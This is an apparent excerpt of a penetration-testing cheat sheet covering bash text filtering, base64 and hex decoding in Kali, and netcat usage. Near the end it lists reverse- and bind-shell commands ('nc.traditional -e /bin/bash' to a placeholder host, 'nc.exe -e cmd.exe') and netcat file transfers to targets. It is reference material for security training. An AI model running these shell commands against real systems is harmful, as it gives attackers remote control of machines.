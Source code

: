     -   Get the start or end of a file  
        `head index.html`
        
        `tail index.html`

    -   Extract all the lines that contain a string  
        `grep "href=" index.html`

    -   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    -   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

    -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values
       
        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
        
    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
         
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
        